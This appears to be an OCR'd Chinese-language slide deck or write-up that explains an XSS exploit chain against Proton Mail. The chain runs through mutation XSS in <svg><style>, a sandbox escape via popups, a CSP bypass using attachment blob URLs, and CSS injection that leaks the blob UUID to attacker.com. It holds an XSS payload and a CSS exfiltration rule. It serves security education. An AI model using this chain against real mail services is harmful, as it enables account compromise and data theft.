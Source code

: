     瀏覽器解析：`<a>` 會變成一個標籤！

---

- 這有什麼影響？
  這代表我們可以利用 `<style>` 內的屬性來，逃逸出原本的 `HTML` 限制

    ``` code
    <svg>
        <style>
            <a id="</style><img src=x onerror=alert(1)>"></a>
        </style>
    </svg>
    ```

    原本應該被當成 ID 屬性的內容，卻變成了一個 `<img>` 標籤，成功 XSS！ 🚀

---

## 防禦第二層：Iframe Sandbox

插入 HTML 還不能馬上 XSS，因為 Proton Mail 把信件內容放在 iframe 內，並加上 sandbox 限制：

- allow-same-origin ➜ 允許 iframe 內的內容視為同源。
- allow-popups ➜ 允許開新視窗。
- allow-popups-to-escape-sandbox ➜ 新開的視窗可以跳出 sandbox！

禁止 script 執行，但讓受害者點擊 `<a>`，新開的視窗就不受 sandbox 限制了，成功執行 JavaScript！🚀

---

## 防禦第三層：CSP（內容安全政策）

Proton Mail 有 CSP 限制 JavaScript 來源，規則：`script-src blob:`

只能從 Blob URL 載入 JavaScript，無法載入外部 script（如 https://evil.com/xss.js）

Proton Mail 將郵件附件轉成 Blob，本來是為了顯示圖片附件，但沒有檢查 Content-Type，所以我們可以：
1️⃣ 上傳一個 JavaScript 檔案作為附件
2️⃣ 利用郵件系統將它轉成 Blob URL
3️⃣ 在 XSS 漏洞中載入這個 Blob URL 作為 `<script>`
4️⃣ 成功繞過 CSP 限制  🚀

---

## 防禦第四層：如何偷到 blob: URL？

Proton Mail 轉換的 blob: URL 是隨機的，例如：`blob:https://mail.proton.me/8b723997-737a-4cec-96db-b59c40fbdbca`

攻擊者 不知道 UUID，怎麼辦？ 
解法：CSS Injection + Image Request Leaks

`img[src*="abc"] { background: url("https://attacker.com/leak?abc"); }
`
1️⃣ 攻擊者在信件中注入 CSS Injection
2️⃣ 當 Proton Mail 渲染信件時，逐步洩漏 blob: URL
3️⃣ 最終拼湊出完整的 blob: URL，成功載入惡意 JavaScript！

---